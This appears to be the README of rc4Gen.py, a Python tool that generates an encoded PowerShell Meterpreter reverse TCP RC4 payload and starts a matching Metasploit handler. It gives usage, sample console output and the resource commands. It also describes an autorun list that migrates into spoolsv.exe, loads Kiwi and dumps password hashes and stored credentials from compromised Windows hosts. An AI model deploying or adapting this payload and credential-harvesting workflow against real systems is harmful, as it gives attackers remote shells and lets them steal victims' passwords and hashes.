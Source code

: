 # rc4Gen
                __ __    ____                      
               /\ \\ \  /\  _`\                    
     _ __   ___\ \ \\ \ \ \ \L\_\     __    ___    
    /\`'__\/'___\ \ \\ \_\ \ \L_L   /'__`\/' _ `\  
    \ \ \//\ \__/\ \__ ,__\ \ \/, \/\  __//\ \/\ \ 
     \ \_\\ \____\\/_/\_\_/\ \____/\ \____\ \_\ \_\
      \/_/ \/____/   \/_/   \/___/  \/____/\/_/\/_/


    rc4Gen.py v1.0
    Description: Generates a MSF Reverse TCP RC4 payload encoded in Powershell to the clipboard.
    Automatically launches the corresponding MSF Multi/Handler.
    The Multi/Handler listener is weaponized to automatically migrate into the spoolsv.exe process, load Kiwi, run sysinfo, hashdump, creds_all and lsa_dump.
    rc4Gen.py supports both command-line parameters and a Wizard driven menu.
    Created by: Nick Sanzotta/@beamr
***
Installation:

    git clone https://github.com/NickSanzotta/rc4Gen.git
    cd rc4Gen
    python rc4Gen.py --help

***
Default Values:

    If a parameter is not defined it's default value will be choosen.
    Default values listed below.
    
    lport = '443'
    rc4Password = 'rc4M4g1c'
    verbose = 'off'
    listener = 'on'
    
***
Usage(CLI):
    
    Usage: python rc4Gen.py --lhost <OPTIONS>
    Example: python rc4Gen.py --lhost 10.0.0.1 --lport=445 --pass=Password123 --verbose=on --listener=off
    
     Tips:
     If LHOST is not defined the Wizard menu will be launched.


	 --lhost=<> This will define the local host used for the reverse_tcp_rc4 payload.

	 --lhost=<443> is default, this value will define the local port used for the reverse_tcp_rc4 payload.

	 --pass=<rc4M4g1c> is default, this value will define the RC4PASSWORD used for the reverse_tcp_rc4 payload.

	 --verbose=[OFF] is default, this will copy payload to Clipboard.

	 --verbose=[ON] is not default, this will print payload to STDOUT.

	 --listener[ON] is default, this will automatically launch the corresponding MSF Multi/Handler.

	 --listener[OFF] is not default, this will NOT launch MSF multi/handler.
     
     Misc:

	 --help <help>		Prints this help menu.


***
Usage(Wizard):

    External IP: 100.255.255.255
    Internal IP: 10.37.242.7

    You did not specifiy the LHOST, wizard menu has launched:

    Enter LHOST for payload[100.255.255.255]:10.37.242.7
    ENTERED: "10.37.242.7"

    Enter LPORT for payload[443]:
    ENTERED: "443"

    Enter RC4PASSWORD for payload[rc4M4g1c]:
    ENTERED: "rc4M4g1c"

    TIP: Verbosity [ON] will print payload to STDOUT.
    TIP: Verbosity [OFF] will copy payload to Clipboard.
    Verbosity[OFF]:
    ENTERED: "OFF"

    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 421 (iteration=0)
    x86/shikata_ga_nai chosen with final size 421
    Payload size: 421 bytes
    Saved as: rc4_payload.ps1

    Payload Copied to Clipboard:

    PAYLOAD: reverse_tcp_rc4
    LHOST: 10.37.242.7
    LPORT: 443
    RC4PASSWORD: rc4M4g1c
    TIP: Listener [ON] will automagically launch a MSF listener.
    listener[ON]:
    ENTERED: "ON"

    [*] Processing rc4_listener.rc for ERB directives.
    resource (rc4_listener.rc)> use multi/handler
    resource (rc4_listener.rc)> set PAYLOAD windows/meterpreter/reverse_tcp_rc4
    PAYLOAD => windows/meterpreter/reverse_tcp_rc4
    resource (rc4_listener.rc)> set LHOST 10.37.242.7
    LHOST => 10.37.242.7
    resource (rc4_listener.rc)> set LPORT 443
    LPORT => 443
    resource (rc4_listener.rc)> set Rc4PASSWORD rc4M4g1c
    Rc4PASSWORD => rc4M4g1c
    resource (rc4_listener.rc)> set ExitOnSession false
    ExitOnSession => false
    resource (rc4_listener.rc)> set AutoRunScript multi_console_command -rcautorun_commands.rc
    AutoRunScript => multi_console_command -rcautorun_commands.rc
    resource (rc4_listener.rc)> exploit -j -z
    [*] Exploit running as background job.

    [*] Started reverse TCP handler on 10.37.242.7:443 
    [*] Starting the payload handler...
    msf exploit(handler) > exit
        ...
***
Autorun Script:
    
    The Multi/Handler listener is weaponized to automatically migrate into the                
    spoolsv.exe process, load Kiwi, run sysinfo, hashdump, creds_all and lsa_dump.
 
    A file called 'autorun_commands.rc' is created with the following commands:
    
    migrate -N spoolsv.exe
    load kiwi
    sysinfo
    hashdump
    creds_all
    lsa_dump
    

***
To Do:

    autorun script ON/off feature (add)
